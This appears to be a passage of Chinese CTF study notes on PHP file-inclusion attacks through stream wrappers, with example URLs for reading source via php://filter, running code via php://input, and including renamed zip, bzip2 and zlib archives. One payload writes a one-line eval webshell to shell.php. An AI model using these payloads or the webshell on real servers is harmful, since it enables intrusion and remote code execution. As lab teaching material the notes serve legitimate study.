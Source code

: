 **条件：**

> allow_url_fopen:off/on
>
> allow_url_include : 部分需要on (下面列出)
>
> php://input
>
> php://stdin
>
> php://memory 
>
> php://temp

**作用：**

> php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是 php://filter 和 php://input
>
> php://filter用于**读取源码**，php://input用于**执行**php代码

**示例：**

```bash
#1. php://filter/read=convert.base64-encode/resource=[文件名]  //读取文件源码
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php

#2.php://input + [POST DATA]执行php代码
http://127.0.0.1/include.php?file=php://input
[POST DATA部分] <?php phpinfo(); ?>

#3.若有写入权限，[POST DATA部分] 写入一句话木马
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

### **zip:// & bzip2:// & zlib://**

**作用：**

> zip:// & bzip2:// & zlib:// 均属于压缩流，可以访问压缩文件中的子文件
>
> 更重要的是不需要指定后缀名，可修改为任意后缀：jpg png gif xxx 等等

**示例：**

```html
1.zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
<!--压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传-->
http://127.0.0.1/include.php?file=zip://C:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt

2.compress.bzip2://file.bz2
<!--压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）-->
http://127.0.0.1/include.php?file=compress.bzip2://C:\phpStudy\PHPTutorial\WWW\phpinfo.bz2

3.compress.zlib://file.gz 
<!--压缩 phpinfo.txt 为 phpinfo.gz-->
http://127.0.0.1/include.php?file=compress.zlib://C:\phpStudy\PHPTutorial\WWW\phpinfo.gz
```
